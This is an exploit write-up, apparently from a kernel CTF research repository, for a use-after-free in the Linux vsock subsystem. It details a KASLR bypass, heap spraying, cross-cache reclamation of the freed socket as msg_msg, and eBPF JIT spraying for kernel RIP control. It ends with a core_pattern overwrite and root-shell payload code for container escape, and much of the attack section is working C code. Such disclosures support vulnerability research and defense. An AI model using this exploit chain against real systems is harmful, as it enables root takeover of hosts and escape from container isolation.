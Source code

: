 # Vulnerability

This vulnerability occurs in the Linux kernel's vsock subsystem, specifically due to improper handling of socket bindings during transport reassignment. When a vsock is created and bound (either explicitly via bind() or implicitly via autobind during a connection), improper reference count management leads to premature removal and deallocation of the socket (use-after-free). Specifically, the kernel incorrectly removes and decreases `struct vsock_sock`'s reference count without ensuring it was properly bound, resulting in `struct vsock_sock` being freed prematurely. Consequently, further access to this freed `struct vsock_sock` causes a use-after-free condition, potentially allowing attackers to exploit freed `struct vsock_sock`.


# Exploit Tech Detail
The exploit is consist in the following steps
* EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
* Spray as many anonymous memory as possible to full the kernel heap memory
* Use cross-cache tech to reclaim freed `struct vsock_sock` as `struct msg_msg`
* Call __vsock_release to RIP Control
* Achieve container escape.

## EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
This technique we used to bypass KASLR.  This technique we're able to predict/guess the physmap address of the anonymous memory in kernel heap. You can find the details about this technique [here](https://www.willsroot.io/2022/12/entrybleed.html).

## Spray as many anonymous memory as possible to full the kernel heap memory

```C
// Spray as many anonymous memory as possible to full the kernel heap memory
int spray_anon_map()
{
	size_t *addr = SYSCHK(mmap(0, 0x30000000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANON, -1, 0));
	for (int i = 0; i < 0x30000000 / 8; i++)
	{
		addr[i] = 0xffffffffcc000000 - 0x800;
	}
}
```

We implements a memory spraying technique to exhaust kernel heap memory by allocating a large anonymous shared memory region (0x30000000 bytes, approximately 768 MB) using the mmap system call. It fills this allocated memory with a specific kernel-space address (0xffffffffcc000000 - 0x800), which is our guessd ebpf address


## Use cross-cache tech to reclaim freed `struct vsock_sock` as `struct msg_msg`

With cross-cache tech, we can reclaim victim skb as msg_msg which is under `kmalloc-cg-1024` cache like following example code.

* Allocate a lot vsock_sock between victim
```c
	// Allocate some `struct vsock_sock` before victim
	for (int i = 0; i < 0x100; i++)
		cross[i] = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

	fd = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

	// Allocate some `struct vsock_sock` after victim
	for (int i = 0; i < 0x100; i++)
		cross[i + 0x100] = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

```

* Free them all and reclaim as msg_msg
```c

	// free all `struct vsock_sock`
	for (int i = 0; i < 0x100; i++)
		close(cross[i]);

	vsock_connect_fd(fd, VMADDR_CID_HOST, VMADDR_PORT_ANY);

	// free all `struct vsock_sock`
	for (int i = 0; i < 0x100; i++)
		close(cross[i + 0x100]);

	for (int i = 0; i < 0x4000; i++)
		SYSCHK(msgsnd(msqid[i], &msg, KMALLOC_CG_1k - KMALLOC_CG_1k, 0));


## RIP Control
We set `vsk->transport` to our guessed kernel heap which contents is our guessed ebpf address.

```c
static void __vsock_release(struct sock *sk, int level)
{
	if (sk) {
		struct sock *pending;
		struct vsock_sock *vsk;

		vsk = vsock_sk(sk);
		pending = NULL;	/* Compiler warning. */

		/* When "level" is SINGLE_DEPTH_NESTING, use the nested
		 * version to avoid the warning "possible recursive locking
		 * detected". When "level" is 0, lock_sock_nested(sk, level)
		 * is the same as lock_sock(sk).
		 */
		lock_sock_nested(sk, level);

		if (vsk->transport)
			vsk->transport->release(vsk);
```


## Achieve container escape
### Spray eBPF programs

We use the same tech as mention in https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2024-36972_lts_cos/docs/exploit.md#achieve-container-escape

Our goal is to do some eBPF JIT spraying so later when we control kernel RIP, it will jump to the JIT page and execute our shellcode.

Linux kernel provide a socket option `SO_ATTACH_FILTER` and let user to attach a classic BPF program to the socket for use as a filter of incoming packets.

By creating lots of sockets and attach to classic BPF program, we can spray a lot of eBPF programs in kernel.
```cpp
    struct sock_fprog prog = {
        .len =  TSIZE,
        .filter = filter,
    };
    for(int i=0;i<NUM;i++){
        int fd[2];
        SYSCHK(socketpair(AF_UNIX,SOCK_DGRAM,0,fd));
        SYSCHK(setsockopt(fd[0],SOL_SOCKET,26,&prog,sizeof(prog)));
    }
```

As for the shellcode in our eBPF program, our goal is to overwrite  `/proc/sys/kernel/core_pattern` so later we can execute command as root by triggering crash. Here's what our shellcode did to achieve our goal:
* Use the `rdmsr` instruction to obtain the kernel text address. With RCX being set to MSR_LSTAR ( `0xc0000082` ), we'll be able to obtain the address of `entry_SYSCALL_64`.
* Calculate the address of `core_pattern` and `_copy_from_user`.
* Call `_copy_from_user(core_pattern, user_buf, 0x30);`, where `user_buf` is a buffer in user space that stores the content we want to overwrite in `core_pattern`. 

We construct our eBPF program with the following form:

```cpp
struct sock_filter table[] = {
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        .....................
};
```

The above example will be compiled into the following instructions after JIT:

```
b8 90 90 90 b3    mov eax, 0xb3909090
b8 90 90 90 b3    mov eax, 0xb3909090
```

If we can control kernel RIP to jump into the NOP instruction ( 0x90 ), the code will become:

```
90       nop 
b3 b8    mov    bl, 0xb8
90       nop
90       nop
90       nop
b3 b8    mov    bl, 0xb8
....
```

We can see that by using an extra byte `0xb3`, we can skip the useless byte `0xb8` and execute our own shellcode. Notice that due to the "skipping part", we only have 3 bytes of space in each instruction, so we'll have to take care of that as well during our shellcode construction.

### Post RIP

Once we control the kernel RIP and jump into the middle of our eBPF program, the shellcode we crafted will cause core_pattern being overwritten to `|/proc/%P/fd/666 %P %P`:

We then use memfd and write an executable file payload in fd 666.
```C
int check_core()
{
	// Check if /proc/sys/kernel/core_pattern has been overwritten
	char buf[0x100] = {};
	int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
	read(core, buf, sizeof(buf));
	close(core);
	return strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0;
}
void crash(char *cmd)
{
	int memfd = memfd_create("", 0);
	SYSCHK(sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff));
	dup2(memfd, 666);
	close(memfd);
	while (check_core() == 0)
		sleep(1);
	puts("Root shell !!");
	/* Trigger program crash and cause kernel to executes program from core_pattern which is our "root" binary */
	*(size_t *)0 = 0;
}
```

Later when coredump happened, it will execute our executable file as root in root namespace:
```C
*(size_t*)0=0; //trigger coredump
```

Spawn shell when coredump happened. This is the code looks like:
```c++

		// #define SYS_pidfd_getfd 438
		int pid = strtoull(argv[2], 0, 10);
		int pfd = syscall(SYS_pidfd_open, pid, 0);
		int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
		int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
		int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
		dup2(stdinfd, 0);
		dup2(stdoutfd, 1);
		dup2(stderrfd, 2);
		/* Get flag and poweroff immediately to boost next round try in PR verification workflow*/
		system("cat /flag;echo o>/proc/sysrq-trigger");
		execlp("bash", "bash", NULL);

```